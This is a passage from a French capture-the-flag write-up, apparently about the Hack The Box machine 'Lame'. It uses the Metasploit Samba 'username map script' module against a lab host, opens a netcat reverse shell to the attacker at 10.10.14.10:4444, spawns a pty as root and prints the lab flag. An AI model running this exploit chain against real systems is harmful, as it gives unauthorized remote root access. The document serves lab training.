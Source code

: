Donc a partir d'ici, je peux faire quelque recherches sur la version `Samba 3.0.20` que je viens juste de trouver.

![Searchsploit](https://i.ibb.co/hHzKFYG/sploit.png)

## 1er Exploitation
Je trouve un exploit du nom de `Username' map script' Command Execution (Metasploit)` deja disponible sur Metasploit que je peux utiliser pour l'exploiter

```sh
msf6 > search Samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set lhost tun0
lhost => 10.10.14.10
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Command shell session 1 opened (10.10.14.10:4444 -> 10.10.10.3:57687) at 2024-04-03 19:38:03 +0000

id
uid=0(root) gid=0(root)
python -c 'import pty; pty.spawn("/bin/bash")'
root@lame:/root# cat root.txt
cat root.txt
92caac3be140ef409e45721348a4e9df
```

Voila, on viens de rooter la Box avec la premiere methode.

## 2eme Methode
Pour un approfondissement sur l'exploitation de la Box, j'ai pu constater que le dernier port `3632` etait aussi vulnerable a une `Daemon Command Execution`. D'abord je vais chercher un scanner de ce port avec `nmap`
